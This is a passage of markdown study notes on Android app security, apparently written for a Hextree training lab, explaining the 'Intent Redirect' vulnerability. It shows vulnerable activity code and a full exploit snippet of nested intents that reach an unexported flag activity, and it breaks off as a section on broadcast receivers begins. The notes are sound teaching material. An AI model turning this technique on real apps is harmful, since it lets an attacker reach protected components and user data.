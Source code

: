```java
launcher.launch(I);
```

## Intent Redirect
- The "Intent Redirect" vulnerability class is pretty simple. It means an attacker can control the intent used by the other app to for example start an activity even if it is not exported
- The Attacker's intent run with the permssion level of the Victim App
**Vuln APP**
```java
Intent intent = getIntent();
Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
    return;
}
this.f.addTag(42);
Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
this.nextIntent = intent3;
if (intent3 == null || intent3.getStringExtra("reason") == null) {
    return;
}
this.f.addTag("nextIntent");
if (this.nextIntent.getStringExtra("reason").equals("back")) {
    this.f.addTag(this.nextIntent.getStringExtra("reason"));
    success(this);
} else if (this.nextIntent.getStringExtra("reason").equals("next")) {
    intent.replaceExtras(new Bundle());
    startActivity(this.nextIntent);
}

```
**Exploit APP**
```java
Intent I3 = new Intent();
I3.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity"));
I3.putExtra("reason","next");
I3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
Intent I2 = new Intent();
I2.putExtra("return",42);
I2.putExtra("nextIntent",I3) ;
Intent I1 = new Intent();
I1.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity"));
I1.putExtra("android.intent.extra.INTENT",I2);
this.startActivity(I1);
```



# Broadcastreceiver
we can search for broadcastreceivers like the follwoing and we can send an intents to it and controls the data 
